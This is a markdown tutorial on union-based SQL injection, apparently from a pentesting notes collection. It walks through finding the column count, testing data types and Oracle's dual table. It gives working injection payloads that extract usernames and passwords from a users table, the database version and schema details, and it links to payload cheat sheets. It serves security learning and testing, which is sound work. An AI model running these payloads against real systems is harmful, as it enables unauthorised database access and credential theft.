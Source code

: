 In a **Union-Based SQL Injection**, the attacker leverages the `UNION` SQL operator to combine results from the original query with results from their injected query. 

When an attacker uses Union-Based SQL Injection, they attempt to combine the results of the original query with their own injected query. However, for this to work properly, certain conditions must be met:

- **Number of Columns**: The original query and the injected query must have the same number of columns.
- **Compatible Data Types**: The data types of the columns in both queries must be compatible.


---
## Cheat Sheets
It is very important to consult these resources available in [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection) to correctly execute an SQL injection attack after verifying its existence:
- [MySQL SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md) 
- [Oracle SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md)  
- [PostgreSQL SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)
- [SQLite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)


---

## 1. Determining the Number of Columns

To carry out a successful `UNION` attack, first we need to know the number of columns in the original query. This is crucial because the `UNION` operator requires both queries to have the **same number of columns** and **compatible data types** to avoid errors. There are two main methods for identifying this:

#### Using ORDER BY

By incrementally increasing the column number in `ORDER BY` clauses, we can find the number of columns by identifying when an error occurs. For example:

```sql
' ORDER BY 1 -- (no error, at least 1 column)

' ORDER BY 2 -- (no error, at least 2 columns)

' ORDER BY N -- (error 500, N exceeds the column count)
```
> Note the space after the double dash

Once a certain number causes an error, we can deduce that the original query has fewer columns than this value.

#### Using UNION SELECT 

Another approach is to inject `UNION SELECT NULL` with different counts of `NULL` values, matching the number of columns until there’s no error. For example:

```sql
' UNION SELECT NULL -- (error, as more than one column is likely present)

' UNION SELECT NULL, NULL -- (no error, meaning the query likely has 2 columns)

' UNION SELECT NULL, NULL, NULL -- (error, meaning only 2 columns exist)
```

Another way to discover the number of columns in a vulnerable query is by using `' UNION SELECT` with sequential numbers.

```sql
' UNION SELECT 1 -- (error, probably more columns)

' UNION SELECT 1,2 -- (error, keep trying)

' UNION SELECT 1,2,3 -- (no error, 3 columns found)
```

Once the correct number of columns is determined, the information extraction can be executed.

## 2. Identifying Data Types for Columns

After determining the number of columns, we need to identify the data type for each column because the `UNION` operator only works when column data types match across the original and injected query. This is achieved by using `UNION SELECT` injections to test for data types one by one.

#### Methods for Testing Data Types:

- **String Data Type:** Inject a string (e.g., `'a'`) in a `NULL` placeholder to check if a column accepts text.

- **Numeric Data Type:** Use numbers in `NULL` positions to determine columns that accept integers.

- **Date Data Type:** Insert a date value (e.g., `'2023-01-01'`) to test if a column accepts dates.


For example:

```sql
' UNION SELECT 'a', NULL, NULL -- (no error means the first column is likely a text type)

' UNION SELECT NULL, 123, NULL -- (no error means the second column is likely an integer)
```

> **Important Oracle Note**:
 On **Oracle** databases, every **SELECT** statement must specify a table to select from. If your **UNION SELECT** attack does not query from a table, you will still need to include the **`FROM`** keyword followed by a valid table name. A built-in table on Oracle called `dual` can be used for this purpose: `' UNION SELECT 'abc' FROM dual --`  

## 3. Extracting Sensitive Data

Once we know the number and type of columns, they can extract sensitive data by injecting a query that retrieves this data from other tables within the database:

```sql
' UNION SELECT NULL, username, password FROM users --
```

In this example, the `username` and `password` columns are retrieved from the `users` table.

#### Additional Information Extraction

- **Obtain the current database name:**

```sql
' UNION SELECT NULL, database(), NULL -- 
```

- **Check the database version:**

```sql
' UNION SELECT NULL, version(), NULL -- 
```

- **List available tables in information_schema.tables:**
```sql
' UNION SELECT NULL, table_name, NULL FROM information_schema.tables -- 
```

- **List column names from a specific table:**

```sql
' UNION SELECT NULL, column_name, NULL FROM information_schema.columns WHERE table_name='users' -- 
```

